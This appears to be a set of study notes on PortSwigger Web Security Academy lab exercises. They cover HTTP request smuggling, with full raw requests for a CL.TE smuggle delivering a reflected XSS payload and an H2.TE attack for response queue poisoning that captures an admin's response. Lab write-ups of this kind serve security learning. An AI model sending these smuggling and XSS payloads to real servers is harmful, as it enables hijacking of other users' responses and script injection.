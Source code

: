 ```
POST / HTTP/1.1 
Host: YOUR-LAB-ID.web-security-academy.net 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 150 
Transfer-Encoding: chunked 

0 

GET /post?postId=5 HTTP/1.1 
User-Agent: a"/><script>alert(1)</script> 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 5 

x=1
```
- Result in reflected XSS.

# Response queue poisoning via H2.TE request smuggling
- Take the normal request and attack request side by side
![[Pasted image 20240515125721.png]]
![[Pasted image 20240515125816.png]]

```
POST /uyeyfwuafdyuc HTTP/2\r\n
Host: 0aab007d03eaa4f38131f3760006007b.web-security-academy.net\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /sfyxtascxacs HTTP/1.1\r\n
Host: 0aab007d03eaa4f38131f3760006007b.web-security-academy.net\r\n
\r\n

```
[Note: \r\n]
[\r\n]
[should be there followed by Host in smuggled request]
- Sending the attack request and normal request alternatively, we start receive the response interchanged.
- Repeating the process in attack request, we will 302 which is the response  of admin interaction in the application.
- 302 response is the smuggled response from the admin.

[Approach 2]
- We can do the same process by using burp repeater as it is a long process to keep sending the attack request until the admin interact the application.
- So,
![[Pasted image 20240515131043.png]]
- Check the below changes 
![[Pasted image 20240515131203.png]]
- Create new resource pool
![[Pasted image 20240515131439.png]]
- Change these settings 
![[Pasted image 20240515131713.png]]
